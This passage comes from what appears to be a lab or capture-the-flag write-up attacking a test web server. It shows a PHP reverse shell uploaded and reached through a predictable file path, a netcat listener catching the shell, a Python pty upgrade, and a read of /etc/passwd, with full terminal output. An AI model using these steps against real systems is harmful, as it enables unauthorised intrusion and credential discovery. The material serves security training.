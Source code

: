 ### 3. Exploit the website

We upload a php reverse shell to website:

![image-20231114194413643](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311141944910.png)

We need to attention at the file ID:

![image-20231114194542518](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311141945800.png)

Because when we access the shell file, we need to know the id of it:

![image-20231114194932337](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311141949608.png)

After we upload the file twice, the ID changed to 5.

And then, we can access the shell through uri `/data/1048576/5/shell.php`, and listen on kali:

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ nc -lvp 1234
listening on [any] 1234 ...
172.16.86.150: inverse host lookup failed: Unknown host
connect to [172.16.86.138] from (UNKNOWN) [172.16.86.150] 55002
Linux ubuntu 5.8.0-59-generic #66~20.04.1-Ubuntu SMP Thu Jun 17 11:14:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 03:56:09 up 43 min,  0 users,  load average: 0.74, 0.22, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



## 4. Privilege Escalation

First, turn on the interactive shell with python:

```shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Look up users:

```shell
www-data@ubuntu:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
```